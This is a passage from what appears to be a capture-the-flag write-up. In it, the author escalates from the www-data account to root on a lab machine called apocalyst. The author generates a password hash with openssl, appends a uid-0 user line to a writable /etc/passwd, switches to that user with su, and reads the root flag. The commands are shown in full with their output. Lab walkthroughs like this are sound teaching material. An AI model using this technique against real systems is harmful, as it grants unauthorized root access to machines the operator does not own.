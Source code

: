 I'll generate a password hash of the format that would show up in a
`passwd` file:



    www-data@apocalyst:/etc$ openssl passwd -1 0xdf    
    $1$ZdNgkXMh$IACjDuFtgYshwpcoQhQjB/



The format of a line in the `passwd` file is:



    [user]:[hash including $[type]$[salt]$[hash]]:[userid]:[groupid]:[comment]:[homedir]:[shell]



So I'll use that to generate a line for a new user with user and group
id 0 (root):



    0xdf:$1$ZdNgkXMh$IACjDuFtgYshwpcoQhQjB/:0:0:0xdf:/root:/bin/bash



I'll add that line to the end of the `passwd` file:



    www-data@apocalyst:/etc$ echo 'oxdf:$1$ZdNgkXMh$IACjDuFtgYshwpcoQhQjB/:0:0:0xdf:/root:/bin/bash' >> passwd



Now `su oxdf` will prompt for that user's password, which I just set to
"0xdf":



    www-data@apocalyst:/etc$ su oxdf
    Password: 
    root@apocalyst:/etc#



Because the oxdf user has userid 0, it is root.

I can grab the flag:



    root@apocalyst:~# cat root.txt
    1cb9d00f************************







